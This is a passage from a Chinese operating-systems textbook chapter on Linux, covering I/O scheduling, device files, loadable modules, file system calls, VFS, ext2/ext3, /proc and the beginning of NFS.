Linux依靠一个I/O调度器来保证磁头反复移动的延迟最小。I/O调度器的作用是对块设备的读写请求重新排序或对这些读写请求进行合并。有很多调度器变种，它们是根据不同类型的工作负载进行优化的结果。基本的Linux I/O调度器基于最初的Linus电梯调度器（Linus Elevator scheduler）。电梯调度器的操作可以这样总结：按磁盘请求的扇区地址的顺序将磁盘操作在一个双向链表中排序。新的请求以排序的方式插入到双向链表中。这种方法可以有效地防止磁头重复移动。请求列表经过合并后，相邻的操作会被整合为一条单独的磁盘请求。基本电梯调度器有一个问题是会导致饥饿的情况发生。因此，Linux磁盘调度器的修改版本包括两个附加的列表，维护按时限（deadline）排序的读写操作。读请求的缺省时限是0.5s，写请求的缺省时限是5s。如果最早的写操作的系统定义的时限要过期了，那么相对于任何在主双向链表中的请求来说，这个写请求会被优先服务。
除了正常的磁盘文件，还有其他的块特殊文件，也被称为原始块文件（raw block file）。这些文件允许程序通过绝对块号来访问磁盘，而不考虑文件系统。它们通常被用于分页和系统维护。
与字符设备的交互是很简单的。因为字符设备产生和接收的是字符流或字节数据，所以让字符设备支持随机访问是几乎没有意义的。不过行规则（line disciplines）的使用是个例外。一个行规则可以和一个终端设备联合在一起，通过tty_struct结构来表示，一般作为和终端交换的数据的解释器。例如，利用行规则可以完成本地行编辑（即擦除的字符和行可以被删除），回车可以映射为换行，以及其他的特殊处理能够被完成。然而，如果一个进程要跟每个字符交互，那么它可以把行设置为原始模式，此时行规则将被忽略。另外，并不是所有的设备都有行规则。
输出采用与输入类似的工作方式，如把tab扩展为空格，把换行转变为回车+换行，在慢的机械式终端的回车后面加填充字符等。像输入一样，输出可以通过（加工模式）行规则，或者忽略（原始模式）行规则。原始模式对于GUI和通过一个串行数据线发送二进制数据到其他的计算机的情况尤其有用，因为这些情况都不需要进行转换。
几十年来，UNIX设备驱动程序是被静态链接到内核中的。因此，只要系统启动，设备驱动程序都会被加载到内存中。在UNIX比较成熟的环境中，如大部分的部门小型计算机以及高端的工作站，其共同的特点是I/O设备集都较小并且稳定不变，这种模式工作得很好。基本上，一个计算机中心会构造一个包含I/O设备驱动程序的内核，并且一直使用它。如果第二年，这个中心买了一个新的磁盘，那么重新链接内核就可以了。一点问题也没有。
随着个人电脑平台Linux系统的到来，所有这些都改变了。相对于任何一台小型机上的I/O设备，PC机上可用I/O设备的数量都有了数量级上的增长。另外，虽然所有的Linux用户都有（或者很容易得到）Linux源代码，但是绝大部分用户都没有能力去添加一个新的驱动程序、更新所有的设备驱动程序数据结构、重链接内核，然后把它作为可启动的系统进行安装（更不用提要处理构造完成后内核不能启动的问题）。
Linux为了解决这个问题，引入了可加载模块（loadable module）的概念。可加载模块是在系统运行时可以加载到内核的代码块。大部分情况下，这些模块是字符或者块设备驱动，但是它们也可以是完整的文件系统、网络协议、性能监控工具或者其他想要添加的模块。
当一个模块被加载到内核时，会发生下面几件事。第一，在加载过程中，模块会被动态地重新部署。第二，系统会检查这个驱动程序需要的资源是否可用（例如，中断请求级别）。如果有效，则把这些资源标记为正在使用。第三，设置所有需要的中断向量。第四，更新驱动转换表使其能够处理新的主设备类型。最后，运行驱动程序来完成可能需要的特定设备的初始化工作。一旦上述所有的步骤都完成了，这个驱动程序就安装完成了，也就和静态安装的驱动程序一样了。其他现代的UNIX系统也支持可加载模块。
在包括Linux在内的所有操作系统中，最可见的部分是文件系统。在本节的以下部分，我们将介绍隐藏在Linux文件系统、系统调用以及文件系统实现背后的基本思想。这些思想中有一些来源于MULTICS，虽然有很多已经被MS-DOS、Windows和其他操作系统使用过了，但是其他的都是UNIX类操作系统特有的。Linux的设计非常有意思，因为它忠实地秉承了“小的就是美好的”（Small is Beautiful）的设计原则。虽然只是使用了最简的机制和少量的系统调用，但是Linux却提供了强大的和优美的文件系统。
最初的Linux文件系统是MINIX 1文件系统。但由于它只能支持14字节的文件名（为了和UNIX Version 7兼容）和最大64MB的文件（这在只有10MB硬盘的年代是足够强大的），在Linux刚被开发出来的时候，开发者就意识到需要开发更好的文件系统（开始于MINIX 1发布的5年后）。对MINIX 1文件系统进行第一次改进后的文件系统是ext文件系统。ext文件系统能支持255个字符的文件名和2GB的文件大小，但是它的速度比MINIX 1慢，所以仍然有必要对它进行改进。最终，ext2文件系统被开发出来，它能够支持长文件名和大文件，并且具有更好的性能，这使得它成为了Linux主要的文件系统。不过，Linux使用虚拟文件系统（VFS）层支持很多类型的文件系统（VFS将在下文介绍）。在Linux链接时，用户可以选择要构造到内核中的文件系统。如果需要其他文件系统，可以在运行时作为模块动态加载。
Linux中的文件是一个长度为0或多个字节的序列，可以包含任意的信息。ASCII文件、二进制文件和其他类型的文件是不加区别的。文件中各个位的含义完全由文件所有者确定，而文件系统不会关心。文件名长度限制在255个字符内，可以由除了NUL以外的所有ASCII字符构成，也就是说，一个包含了三个回车符的文件名也是合法的（但是这样命名很不方便）。
按照惯例，许多程序能识别的文件包含一个基本文件名和一个扩展名，中间用一个点连接（点也被认为是占用了文件名的一个字符）。例如一个名为prog.c的文件是一个典型的C源文件，prog.f90是一个典型的FORTRAN 90程序文件，而prog.o通常是一个object文件（编译器的输出文件）。这个惯例不是操作系统要求的，但是一些编译器和程序希望是这样，比如一个名为prog.java.gz的文件可能是一个gzip压缩的Java程序。
为了方便，文件可以被组织在一个目录里。目录存储成文件的形式并且在很大程度上可以作为文件处理。目录可以包含子目录，这样可以形成有层次的文件系统。根目录表示为“/”，它通常包含了多个子目录。字符“/”还用于分离目录名，所以/usr/ast/x实际上是说文件x位于目录ast中，而目录ast位于/usr目录中。图10-23列举了根目录下几个主要的目录及其内容。
在Linux中，不管是对shell还是一个打开文件的程序来说，都有两种方法表示一个文件的文件名。第一种方法是使用绝对路径，绝对路径告诉系统如何从根目录开始查找一个文件。例如/usr/ast/books/mos3/chap-10，这个路径名告诉系统在根目录里寻找一个叫usr的目录，然后再从usr中寻找ast目录……依照这种方式，最终找到chap-10文件。
绝对路径的缺点是文件名太长并且不方便。因为这个原因，Linux允许用户和进程把他们当前工作的目录标识为工作目录，这样路径名就可以相对于工作目录命名，这种方式命名的目录名叫做相对路径。例如，如果/usr/ast/books/mos3是工作目录，那么shell命令
cp chap-10 backup-10
和长命令cp/usr/ast/books/mos3/chap-10/usr/ast/books/mos3/backup-10的效果是一样的。
一个用户要使用属于另一个用户的文件或者使用文件树结构里的某个文件的情况是经常发生的。例如，两个用户共享一个文件，这个文件位于其中某个用户所拥有的目录中，另一个用户需要使用这个文件时，必须通过绝对路径才能引用它（或者通过改变工作目录的方式）。如果绝对路径名很长，那么每次输入时将会很麻烦。为了解决这个问题，Linux提供了一种指向已存在文件的目录项，称作链接（link）。
以图10-24a为例，两个用户Fred和Lisa一起工作来完成一个项目，他们需要访问对方的文件。如果Fred的工作目录是/usr/fred，他可以使用/usr/lisa/x来访问Lisa目录下的文件x。Fred也可以如图10-24b所示的方法，在自己目录下创建一个链接，然后他就可以用x来代替/usr/lisa/x了。
在上面的例子中，我们说在创建链接之前，Fred引用Lisa的文件x的惟一方法是使用绝对路径。实际上这并不正确，当一个目录被创建出来时，有两个目录项“.”和“..”被自动创建出来存放在该目录中，前者代表工作目录自身，而后者表示该目录的父目录，也就是该目录所在的目录。这样一来，在/usr/fred目录中访问Lisa的文件x的另一个路径是：../lisa/x。
除了普通的文件之外，Linux还支持字符特殊文件和块特殊文件。字符特殊文件用来建模串行I/O设备，比如键盘和打印机。如果打开并从/dec/tty中读取内容，等于从键盘读取内容，而如果打开并向/dev/lp中写内容，等于向打印机输出内容。块特殊文件通常有类似于/dev/hd1的文件名，它用来直接向硬盘分区中读取和写入内容，而不需要考虑文件系统。一个偏移为k字节的read操作，将会从相应分区开始的第k个字节开始读取，而完全忽略i节点和文件的结构。原始块设备常被一些建立（如mkfs）或修补（如fsck）文件系统的程序用来进行分页和交换。
许多计算机有两块或更多的磁盘。银行使用的大型机，为了存储大量的数据，通常需要在一台机器上安装100个或更多的磁盘。甚至在PC上也至少有两块磁盘——一块硬盘和一个光盘驱动器（如DVD）。当一台机器上安装了多个磁盘的时候，如何处理它们就是一个问题。
一个解决方法是在每一个磁盘上安装自包含的文件系统，使它们之间互相独立。考虑如图10-25a所示的解决方法，有一个硬盘C:和一个DVD D:，它们都有自己的根目录和文件。如果使用这种解决方法，除了默认盘外，使用者必须指定设备和文件，例如，要把文件x复制到目录d中（假设C:是默认盘），应该使用命令
cp D:/x/a/d/x
这种方法被许多操作系统使用，包括MS-DOS、Windows 98和VMS。
Linux的解决方法是允许一个磁盘挂载到另一个磁盘的目录树上，比如，我们可以把DVD挂载在目录/b上，构成如图10-25b所示的文件系统。挂载之后，用户能够看见一个目录树，而不再需要关心文件在哪个设备上，上面提到的命令就可以变成
cp/b/x/a/d/x
和所有文件都在硬盘上是一样的。
Linux文件系统的另一个有趣的性质是加锁（locking）。在一些应用中会出现两个或更多的进程同时使用同一个文件的情况，可能导致竞争条件（race condition）。有一种解决方法是使用临界区，但是如果这些进程属于相互不认识的独立的用户，这种解决方法是不方便的。
考虑这样的一个例子，一个数据库组织许多文件在一个或多个目录中，它们可以被不相关的用户访问。可以通过设置信号量来解决互斥的问题，在每个目录或文件上设置一个信号量，当程序需要访问相应的数据时，在相应的信号量上做一个down操作。但这样做的缺点是，尽管进程只需要访问一条记录却使得整个目录或文件都不能访问。
由于这种原因，POSIX提供了一种灵活的、细粒度的机制，允许一个进程使用一个不可分割的操作对小到一个字节、大到整个文件加锁。加锁机制要求加锁者标识要加锁的文件、开始位置以及要加锁的字节数。如果操作成功，系统会在表格中添加记录说明要求加锁的字节（如数据库的一条记录）已被锁住。
系统提供了两种锁，共享锁和互斥锁。如果文件的一部分已经被加了共享锁，那么在上面尝试加共享锁是允许的，但是加互斥锁是不会成功的；如果文件的一部分已经被加了互斥锁，那么在互斥锁解除之前加任何锁都不会成功。为了成功地加锁，请求加锁的部分的所有字节都必须是可用的。
在加锁时，进程必须指出当加锁不成功时是否阻塞。如果选择阻塞，则当已经存在的锁被删除时，进程被放行并在文件上加锁；如果选择不阻塞，系统调用在加锁失败时立即返回，并设置状态码表明加锁是否成功，如果不成功，由调用者决定下一步动作（比如，等待或者继续尝试）。
加锁区域可以是重叠的。如图10-26a所示，进程A在第4字节到第7字节的区域加了共享锁，之后，进程B在第6字节到第9字节加了共享锁，如图10-26b所示，最后，进程C在第2字节到第11字节加了共享锁。由于这些锁都是共享锁，是可以同时存在的。
此时，如果一个进程试图在图10-26c中文件的第9个字节加互斥锁，并设置加锁失败时阻塞，那么会发生什么？由于该区域已经被进程B和进程C两个进程加锁，这个进程将会被阻塞，直到进程B和进程C释放它们的锁为止。
许多系统调用与文件和文件系统有关。在本节中，首先研究对单个文件进行操作的系统调用，之后我们会研究针对目录和文件系统的系统调用。要创建一个文件时，可以使用creat系统调用。（曾经有人问Ken Thompson，如果给他一次重新发明UNIX的机会，他会做什么不同事情，他回答说他要把这个系统调用的拼写改成create，而不是现在的creat。）这个系统调用的参数是文件名和保护模式。于是
fd=creat("abc",mode);
创建了一个名为abc的文件，并根据mode设置文件的保护位。这些保护位决定了用户访问文件的权限及方式。在下文将会具体讨论。
creat系统调用不仅创建了一个新文件，还以写的方式打开了这个文件。为了使以后的系统调用能够访问这个文件，creat成功时返回一个非负整数，这个非负整数叫做文件描述符，也就是例子中的fd。如果creat作用在一个已经存在的文件上，那么该文件的文件长度会被截短为0，它的内容会被丢弃。通过设置合适的参数，open系统调用也能创建文件。
现在我们继续讨论图10-27列出的主要的文件系统调用。为了读或写一个已经存在的文件，必须使用open系统调用打开这个文件。它的参数是要打开文件的文件名以及打开方式：只读、只写或两者。此外，也可以指定不同的选项。和creat一样，open返回一个文件描述符，可用来进行读写。然后可以使用close系统调用来关闭文件，它使得文件描述符可以被后来的creat或open使用。creat和open系统调用总是返回未被使用的最小数值的文件描述符。
当一个程序以标准方式运行时，文件描述符0、1、2已经分别用于标准输入、标准输出和标准错误。通过这种方式，一个过滤器，比如sort程序，可以从文件描述符0读取输入，输出到文件描述符1，而不需要关心这些文件是什么。这种机制能够有效是因为shell在程序启动之前就设置好了它们的值。
毫无疑问，最常使用的文件系统调用是read和write。它们每个都有三个参数：文件描述符（标明要读写的文件）、缓冲区地址（给出数据存放的位置或者读取数据的位置），长度（给出要传输的数据的字节数）。这些就是全部了。这种设计非常简单，一个典型的调用方法是：
n=read(fd,buffer,nbytes);
虽然几乎所有程序都是顺序读写文件的，但是一些程序需要能够从文件的任何位置随机地读写文件。每个文件都有一个指针指向文件当前的读写位置。当顺序地读写文件时，这个指针指向将要读写的字节。如果文件位置指针最初指向4096，在读取了1024个字节后，它会自动地指向第5120个字节。lseek系统调用可以改变位置指针的值，所以之后的read和write可以从文件的任何位置开始读写，甚至是超出文件的结尾。这个系统调用叫做lseek，是为了避免与seek冲突，其中后者以前在16位计算机上用于查找，现在已经不使用了。
lseek有三个参数：第一个是文件描述符，第二个是文件读写位置，第三个表明读写位置是相对于文件开头、当前位置还是文件尾。lseek的返回值是当读写位置改变后的绝对位置。有点讽刺的是，lseek是惟一一个从不会引起实际的磁盘寻道的文件系统调用，因为它所做的只是修改了内存中的一个值（文件读写位置）。
对于每个文件，Linux记录了它的文件类型（普通文件、目录、特殊文件）、大小、最后一次修改时间和其他信息。程序可以使用stat系统调用来查看这些信息，stat的第一个参数是文件名，第二个参数是指向获取的文件信息将要存放的结构的指针，该结构的各个域如图10-28所示。系统调用fstat的作用和stat一样，惟一不同的是，fstat针对一个打开的文件（文件名可能未知）进行操作，而不是一个路径名。
pipe系统调用用来创建一个shell管线。它创建了一种伪文件（pseudo-file），用于缓冲管线通信的数据，并给缓冲区的读写都返回文件描述符。以下面的管线为例：
sort＜in|head-30
在执行sort的进程中，文件描述符1（标准输出）被设置为写入管道，执行head的进程中，文件描述符0（标准输入）被设置为从管道读取。通过这种方式，sort只是从文件描述符0（被设置为文件in）读取，写入到文件描述符1（管道），甚至不会觉察到它们已经被重定向了。如果它们没有被重定向，sort将会自动从键盘读取数据，而后输出到显示器（默认设备）。同样地，当head从文件描述符0中读取数据时，它读取到的是sort写入到管道缓冲区中的数据，head甚至不知道自己使用了管道。这个例子清晰地表明了一个简单的概念（重定向）和一个简单的实现（文件描述符0和1）如何实现一个强大的工具（以任意方式连接程序，而不需要去修改它们）。
图10-27列举的最后一个系统调用是fcntl。fcntl用于加锁和解锁文件，应用共享锁和互斥锁，或者是执行一些文件相关的其他操作。
现在我们开始关注与目录及文件系统整体更加相关，而不是仅和单个文件有关的系统调用，图10-29列举了一些这样的系统调用。可以使用mkdir和rmdir创建和删除目录，但需要注意：只有目录为空时才可以将其删除。
如图10-24所示，创建一个指向已有文件的链接时创建了一个目录项（directory entry）。系统调用link用于创建链接，它的参数是已有文件的文件名和链接的名称，使用unlink可以删除目录项。当文件的最后一个链接被删除时，这个文件会被自动删除。对于一个没有被链接的文件，对其使用unlink也会让它从目录中消失。
使用chdir系统调用可以改变工作目录，工作目录的改变会影响到相对路径名的解释。
在本节中，我们首先研究虚拟文件系统（Virtual File System，VFS）层支持的抽象。VFS对高层进程和应用程序隐藏了Linux支持的所有文件系统之间的区别，以及文件系统是存储在本地设备，还是需要通过网络访问的远程设备。设备和其他特殊文件也可以通过VFS访问。接下来，我们将描述第一个被Linux广泛使用的文件系统ext2（second extended file system）。随后，我们将讨论ext3文件系统中所作的改进。所有的Linux都能处理有多个磁盘分区且每个分区上有一个不同文件系统的情况。
1.Linux虚拟文件系统
为了使应用程序能够与在本地或远程设备上的不同文件系统进行交互，Linux采用了一个被其他UNIX系统使用的方法：虚拟文件系统。VFS定义了一个基本的文件系统抽象以及这些抽象上允许的操作集合。调用上节中提到的系统调用访问VFS的数据结构，确定要访问的文件所属的文件系统，然后通过存储在VFS数据结构中的函数指针调用该文件系统的相应操作。
图10-30总结了VFS支持的四个主要的文件系统结构。其中，超级块包含了文件系统布局的重要信息，破坏了超级块将会导致文件系统无法访问。每个i节点（i-node,index-node的简写，但是从来不这样称呼它，而一些人省略了“-”并称之为i节点）表示某个确切的文件。值得注意的是在Linux中，目录和设备也当作是文件，所以它们也有自己对应的i节点。超级块和i节点都有相应的结构，由文件系统所在的物理磁盘维护。
为了便于目录操作及路径（比如/usr/ast/bin）的遍历，VFS支持dentry数据结构，它表示一个目录项。这个数据结构由文件系统在运行过程中创建。目录项被缓存在dentry_cache中，比如，dentry_cache会包含/，/usr，/usr/ast的目录项。如果多个进程通过同一个硬连接（即相同路径）访问同一个文件，它们的文件对象都会指向这个cache中的同一个目录项。
file数据结构是一个打开文件在内存中的表示，并且在调用open系统调用时被创建。它支持read、write、sendfile、lock等上一节中提到的系统调用。
在VFS下层实现的实际文件系统并不需要在内部使用与VFS完全相同的抽象和操作，但是必须实现跟VFS对象所指定的操作在语义上等价的文件系统操作。这四个VFS对象中的operations数据结构的元素都是指向底层文件系统函数的指针。
2.Linux ext2文件系统
接下来，我们介绍在Linux中最流行的磁盘文件系统：ext2。第一个Linux操作系统使用MINIX文件系统，但是它限制了文件名长度并且文件长度最大只能是64MB。后来MINIX被第一个扩展文件系统，ext文件系统取代。ext可以支持长文件名和大文件，但由于它的效率问题，ext被ext2代替，ext2在今天还在广泛使用。
ext2的磁盘分区包含了一个如图10-31所示的文件系统。块0不被Linux使用，而通常用来存放启动计算机的代码。在块0后面，磁盘分区被划分为若干个块组，划分时不考虑磁盘的物理结构。每个块组的结构如下：
第一个块是超级块，它包含了该文件系统的信息，包括i节点的个数、磁盘块数以及空闲块链表的起始位置（通常有几百个项）。下一个是组描述符，存放了位图（bitmap）的位置、空闲块数、组中的i节点数，以及组中目录数等信息，这个信息很重要，因为ext2试图把目录均匀地分散存储到磁盘上。
两个位图分别记录空闲块和空闲i节点，这是从MINIX1文件系统继承的（大多数UNIX文件系统不使用位图，而使用空闲列表）。每一个位图的大小是一个块。如果一个块大小是1KB，那么就限制了块数和i节点数只能是8192个。块数是一个严格的限制，但是在实际应用中，i节点数并不是。
在超级块之后是i节点存储区域，它们被编号为1到某个最大值。每个i节点的大小是128字节，并且每一个i节点恰好描述一个文件。i节点包含了统计信息（包含了stat系统调用能获得的所有信息，实际上stat就是从i节点读取信息的），也包含了所有存放该文件数据的磁盘块的位置。
在i节点区后面是数据块区，所有文件和目录都存放在这个区域。对于一个包含了一个以上磁盘块的文件和目录，这些磁盘块是不需要连续的。实际上，一个大文件的块有可能遍布在整个磁盘上。
目录对应的i节点散布在磁盘块组中。如果有足够的空间，ext2会把普通文件组织到与父目录相同的块组上，而把同一个块上的数据文件组织成初始文件i节点。这个思想来自Berkeley的快速文件系统（McKusick等人，1984）。位图用于快速确定在什么地方分配新的文件系统数据。在分配新的文件块时，ext2也会给该文件预分配许多（8个）额外的数据块，这样可以减少将来向该文件写入数据时产生的文件碎片。这种策略在整个磁盘上实现了文件系统负载平衡，而且由于排列和缩减文件碎片，它的性能也很好。
要访问文件，必须首先使用一个Linux系统调用，例如open，该调用需要文件的路径名。解析路径名以解析出单独的目录。如果使用相对路径，则从当前进程的当前目录开始查找，否则就从根目录开始。在以上两种情况中，第一个目录的i节点很容易定位：在进程描述符中有指向它的指针；或者在使用根目录的情况下，它存储在磁盘上预定的块上。
目录文件允许不超过255个字符的文件名，如图10-32所示。每一个目录都由整数个磁盘块组成，这样目录就可以整体写入磁盘。在一个目录中，文件和子目录的目录项是未排序的，并且一个紧挨着一个。目录项不能跨越磁盘块，所以通常在每个磁盘块的尾部会有部分未使用的字节。
图10-32中的每个目录项由四个固定长度的域和一个可变长度的域组成。第一个域是i节点号，文件colossal的i节点号是19，文件voluminous的i节点号是42，目录bigdir的i节点号是88。接下来是rec_len域，标明该目录项的大小（以字节为单位），可能包括名字后面的一些填充。在名字以未知长度填充时，这个域被用来寻找下一个目录项。这也是图10-32中箭头的含义。接下来是类型域：文件、目录等。最后一个固定域是文件名的长度（以字节为单位），在例子中是8、10和6。最后是文件名，文件名以字节0结束，并被填充到32字节边界。额外的填充可以在此之后。
在图10-32b中，我们看到的是文件voluminous的目录项被移除后同一个目录的内容。这是通过增加colossal的域的长度，将voluminous以前所在的域变为第一个目录项的填充。当然，这个填充可以用来作为后续的目录项。
由于目录是按线性顺序查找的，要找到一个位于大目录末尾的目录项会耗费相当长的时间。因此，系统为近期访问过的目录维护一个缓存。该缓存使用文件名进行查找，如果命中，那么就可以避免费时的线性查找。组成路径的每个部分都在目录缓存中保存一个dentry对象，并且通过它的i节点查找到后续的路径元素的目录项，直到找到真正的文件i节点。
例如，要通过绝对路径名来查找一个文件（如：/usr/ast/file），需要经过如下步骤。首先，系统定位根目录，它通常使用2号i节点（特别是当1号i节点被用来处理磁盘坏块的时候）。系统在目录缓存中存放一条记录以便将来对根目录的查找。然后，在根目录中查找字符串“usr”，得到/usr目录的i节点号。/usr目录的i节点号同样也存入目录缓存。然后这个i节点被取出，并从中解析出磁盘块，这样就可读取/usr目录并查找字符串“ast”。一旦找到这个目录项，目录/usr/ast的i节点号就可以从中获得。有了/usr/ast的i节点号，就可以读取i节点并确定目录所在的磁盘块。最后，从/usr/ast目录查找“file”并确定其i节点号。因此，使用相对地址不仅对用户来说更加方便，而且也为系统节省了大量的工作。
如果文件存在，那么系统提取其i节点号并以它为索引在i节点表（在磁盘上）中定位相应的i节点，并装入内存。i节点被存放在i节点表中，其中i节点表是一个内核数据结构，用于保存所有当前打开的文件和目录的i节点。i节点表项的格式至少要包含stat系统调用返回的所有域，以保证stat正常运行（见图10-28）。图10-33中列出了i节点结构中由Linux文件系统层支持的一些域。实际的i节点结构包含更多的域，这是由于该数据结构也用于表示目录、设备以及其他特殊文件。i节点结构中还包含了一些为将来的应用保留的域。历史已经表明未使用的位不会长时间保持这种方式。
现在来看看系统如何读取文件。对于调用了read系统调用的库函数的一个典型使用是：
n=read(fd,buffer,nbytes);
当内核得到控制权时，它需要从这三个参数以及内部表中与用户有关的信息开始。内部表中的项目之一是文件描述符数组。文件描述符数组用文件描述符作为索引并为每一个打开的文件保存一个表项（最多达到最大值，通常默认是32个）。
这里的思想是从一个文件描述符开始，找到文件对应的i节点为止。考虑一个可能的设计：在文件描述符表中存放一个指向i节点的指针。尽管这很简单，但不幸的是这个方法不能奏效。其中存在的问题是：与每个文件描述符相关联的是用来指明下一次读（写）从哪个字节开始的文件读写位置，它该放在什么地方？一个可能的方法是将它放到i节点表中。但是，当两个或两个以上不相关的进程同时打开同一个文件时，由于每个进程有自己的文件读写位置，这个方法就失效了。
另一个可能的方法是将文件读写位置放到文件描述符表中。这样，每个打开文件的进程都有自己的文件读写位置。不幸的是，这个方法也是失败的，但是其原因更加微妙并且与Linux的文件共享的本质有关。考虑一个shell脚本s，它由顺序执行的两个命令p1和p2组成。如果该shell脚本在命令行
s＞x
下被调用，我们预期p1将它的输出写到x中，然后p2也将输出写到x中，并且从p1结束的地方开始。
当shell生成p1时，x初始是空的，从而p1从文件位置0开始写入。然而，当p1结束时就必须通过某种机制使得p2看到的初始文件位置不是0（如果将文件位置存放在文件描述符表中，p2将看到0），而是p1结束时的位置。
实现这一点的方法如图10-34所示。实现的技巧是在文件描述符表和i节点表之间引入一个新的表，叫做打开文件描述表，并将文件读写位置（以及读/写位）放到里面。在这个图中，父进程是shell而子进程首先是p1然后是p2。当shell生成p1时，p1的用户结构（包括文件描述符表）是shell的用户结构的一个副本，因此两者都指向相同的打开文件描述表的表项。当p1结束时，shell的文件描述符仍然指向包含p1的文件位置的打开文件描述。当shell生成p2时，新的子进程自动继承文件读写位置，甚至p2和shell都不需要知道文件读写位置到底是在哪里。
然而，当不相关的进程打开该文件时，它将得到自己的打开文件描述表项，以及自己的文件读写位置，而这正是我们所需要的。因此，打开文件描述表的重点是允许父进程和子进程共享一个文件读写位置，而给不相关的进程提供各自私有的值。
再来看读操作，我们已经说明了如何定位文件读写位置和i节点。i节点包含文件前12个数据块的磁盘地址。如果文件位置是在前12个块，那么这个块被读入并且其中的数据被复制给用户。对于长度大于12个数据块的文件，i节点中有一个域包含一个一级间接块的磁盘地址，如图10-34所示。这个块含有更多的磁盘块的磁盘地址。例如，如果一个磁盘块大小为1KB而磁盘地址长度是4字节，那么这个一级间接块可以保存256个磁盘地址。因此这个方案对于总长度在268KB以内的文件适用。
除此之外，还使用一个二级间接块。它包含256个一级间接块的地址，每个一级间接块保存256个数据块的地址。这个机制能够处理10+216 个块（67 119 104字节）。如果这样仍然不够，那么i节点为三级间接块留下了空间，三级间接块的指针指向许多二级间接块。这个寻址方案能够处理大小为224 个1KB块（16GB）的文件。对于块大小是8KB的情况，这个寻址方案能够支持最大64TB的文件。
3.Linux Ext3文件系统
为了防止由系统崩溃和电源故障造成的数据丢失，ext2文件系统必须在每个数据块创建之后立即将其写出到磁盘上。必需的磁盘磁头寻道操作导致的延迟是如此之长以至于性能差得无法让人接受。因此，写操作被延迟，对文件的改动可能在30秒内都不会提交给磁盘，而相对于现代的计算机硬件来说，这是一段相当长的时间间隔。
为了增强文件系统的健壮性，Linux依靠日志文件系统。Ext3，作为Ext2文件系统的改进，就是一个日志文件系统的例子。
这种文件系统背后的基本思想是维护一个日志，该日志顺序记录所有文件系统操作。通过顺序写出文件系统数据或元数据（i节点，超级块等）的改动，该操作不必忍受随机磁盘访问时磁头移动带来的开销。最后，这些改动将被写到适当的磁盘地址，而相应的日志项可以被丢弃。如果系统崩溃或电源故障在改动提交之前发生，那么在重启动过程中，系统将检测到文件系统没有被正确地卸载。然后系统遍历日志，并执行日志记录所描述的文件系统改动。
Ext3设计成与Ext2高度兼容，事实上，两个系统中所有的核心数据结构和磁盘布局都是相同的。此外，一个作为ext2系统被卸载的文件系统随后可以作为ext3系统被加载并提供日志能力。
日志是一个以环形缓冲器形式组织的文件。日志可以存储在主文件系统所在的设备上也可以存储在其他设备上。由于日志操作本身不被日志记录，这些操作并不是被日志所在的ext3文件系统处理的，而是使用一个独立的日志块设备（Journaling Block Device，JBD）来执行日志的读/写操作。
JBD支持三个主要数据结构：日志记录、原子操作处理和事务。一个日志记录描述一个低级文件系统操作，该操作通常导致块内变化。鉴于系统调用（如write）包含多个地方的改动——i节点、现有的文件块、新的文件块、空闲块列表等，所以将相关的日志记录按照原子操作分成组。Ext3将系统调用过程的起始和结束通知JBD，这样JBD能够保证一个原子操作中的所有日志记录或者都被应用，或者没有一个被应用。最后，主要从效率方面考虑，JBD将原子操作的汇集作为事务对待。一个事务中日志记录是连续存储的。仅当一个事务中的所有日志记录都被安全提交到磁盘后，JBD才允许日志文件的相应部分被丢弃。
把每个磁盘改动的日志记录项写到磁盘可能开销很大，ext3可以配置为保存所有磁盘改动的日志或者仅仅保存文件系统元数据（i节点、超级块、位映射等）改动的日志。只记录元数据会使系统开销更小，性能更好，但是不能保证文件数据不会损坏。一些其他的日志文件系统仅仅维护关于元数据操作的日志（例如，SGI的XFS）。
4./proc文件系统
另一个Linux文件系统是/proc（process）文件系统。其思想来自于Bell实验室开发的第8版UNIX，后来被4.4BSD和System V采用。不过，Linux在几个方面对该思想进行了扩充。其基本概念是为系统中的每个进程在/proc中创建一个目录。目录的名字是进程PID的十制数值。例如，/proc/619是与PID为619的进程相对应的目录。在该目录下是进程信息的文件，如进程的命令行、环境变量和信号掩码等。事实上，这些文件在磁盘上并不存在。当读取这些文件时，系统按需从进程中抽取这些信息，并以标准格式将其返回给用户。
许多Linux扩展与/proc中其他的文件和目录相关。它们包含各种各样的关于CPU、磁盘分区、设备、中断向量、内核计数器、文件系统、已加载模块等信息。非特权用户可以读取很多这样的信息，于是就可以通过一种安全的方式了解系统的行为。其中的部分文件可以被写入，以达到改变系统参数的目的。
网络在Linux中起着重要作用，在UNIX中也是如此——自从网络出现开始（第一个UNIX网络是为了将新的内核从PDP-11/70转移到Interdata 8/32上而建立的）。本节将考察Sun Microsystem的NFS（网络文件系统）。该文件系统应用于所有的现代Linux系统中，其作用是将不同计算机上的不同文件系统连接成一个逻辑整体。当前主流的NFS实现是1994年提出的第3版。NFS第4版在2000年提出，并在前一个NFS体系结构上做了一些增强。NFS有三个方面值得关注：体系结构、协议和实现。我们现在将依次考察这三个方面，首先是简化的NFS第3版，然后简要探讨第4版所做的增强。
1.NFS体系结构
NFS背后的基本思想是允许任意选定的一些客户端和服务器共享一个公共文件系统。在很多情况下，所有的客户端和服务器都在同一个局域网中，但这并不是必需的。如果服务器距离客户端很远，NFS也可以在广域网上运行。简单起见，我们还是说客户端和服务器，就好像它们位于不同的机器上，但实际上，NFS允许一台机器同时既是客户端又是服务器。
每一个NFS服务器都导出一个或多个目录供远程客户端访问。当一个目录可用时，它的所有子目录也都可用，因而事实上，整个目录树通常作为一个单元导出。服务器导出的目录列表用一个文件来维护，通常是/etc/exports。因此服务器启动后这些目录可以被自动地导出。客户端通过挂载这些导出的目录来访问它们。当一个客户端挂载了一个（远程）目录，该目录就成为客户端目录层次的一部分，如图10-35所示。
在这个例子中，客户端1将服务器1的bin目录挂载到客户端1自己的bin目录。因此它现在可以用/bin/sh引用shell并获得服务器的shell。无磁盘工作站通常只有一个框架文件系统（在RAM中），它从远程服务器中得到所有的文件，就像上例中一样。类似地，客户端1将服务器2中的/projects目录挂载到自己的/usr/ast/work目录，因此它用usr/ast/work/proj1/a就可以访问文件a。最后，客户端2也挂载了projects目录，它可以用/mnt/proj1/a访问文件a。从这里可以看到，由于不同的客户端将文件挂载到各自目录树中不同的位置，同一个文件在不同的客户端有不同的名字。对客户端来说挂载点是完全局部的，服务器不会知道文件在任何一个客户端中的挂载点。
2.NFS协议
由于NFS的目标之一是支持异构系统，客户端和服务器可能在不同硬件上运行不同操作系统，因此对客户端和服务器之间的接口给予明确定义是很关键的。只有这样，才有可能让任何一个新的客户端能够跟现有的服务器一起正确工作，反之亦然。
